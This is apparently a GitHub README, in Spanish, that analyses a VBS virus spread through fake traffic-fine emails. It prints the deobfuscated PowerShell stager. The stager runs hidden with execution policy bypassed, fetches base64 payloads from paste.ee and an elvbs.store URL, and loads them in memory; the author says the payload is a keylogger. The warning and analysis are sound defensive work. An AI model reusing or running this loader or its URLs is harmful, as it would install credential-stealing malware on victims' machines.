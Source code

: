 # virus-sandbox

- ⚠️ NO ejecutar "Orden del Comparendo Electronico.vbs", este archivo es un virus que circula en diferentes correos electrónicos falsos.
- ✔️ "decodificado.py" es seguro, elimina la ofuscación del virus que consiste en simples reemplazos e inversiones de strings. 

## El virus descifrado:

Código base 64
```
JGRsbCA9ICcwLzhKTWgxL3IvZWUuZXRzYXAvLzpzcHR0aCc7JFJ1bXBlRCA9IChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCAkZGxsWy0xLi4tJGRsbC5MZW5ndGhdIC1qb2luICcnICk7W0J5dGVbXV0gJFJ1bXBlID0gW1N5c3RlbS5Db252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZyggJFJ1bXBlRFstMS4uLSRSdW1wZUQuTGVuZ3RoXSAtam9pbiAnJyApO1tSZWZsZWN0aW9uLkFzc2VtYmx5XTo6TG9hZCgkUnVtcGUpLkdldFR5cGUoJ2VudC5DbGFzczEnKS5HZXRNZXRob2QoJ1J1bicpLkludm9rZSgkbnVsbCwgW29iamVjdFtdXSAoJ3R4dC4yNjYwMjQwODIxMS9zYnYvZXJvdHMuc2J2bGUvLzpwdHRoJykp;$OWjuxD =
```


```
[SystemBolSULeYnpTextBolSULeYnpEncoding]::ASCIIBolSULeYnpGetString( [SystemBolSULeYnpConvert]::FromBase64String($Codigo) );powershellBolSULeYnpexe -windowstyle hidden -ExecutionPolicy Bypass -NoProfile -Command $OWjuxD
powershell.exe -windowstyle hidden -ExecutionPolicy Bypass -NoProfile -Command
```



## El base 64 decodificado:
```
powershell.exe -windowstyle hidden -ExecutionPolicy Bypass -NoProfile -Command
$dll = '0/8JMh1/r/ee.etsap//:sptth';$RumpeD = (New-Object Net.WebClient).DownloadString( $dll[-1..-$dll.Length] -join '' );[Byte[]] $Rumpe = [System.Convert]::FromBase64String( $RumpeD[-1..-$RumpeD.Length] -join '' );[Reflection.Assembly]::Load($Rumpe).GetType('ent.Class1').GetMethod('Run').Invoke($null, [object[]] ('txt.26602408211/sbv/erots.sbvle//:ptth'))9h
```

Pueden evidenciarse dos urls desde donde se descargan otras cadenas en base64 que contienen un keylogger:
- https://paste.ee/r/1hMJ8/0
- http://elvbs.store/vbs/11280420662.txt


# Existen otros 170 archivos en http://elvbs.store/vbs

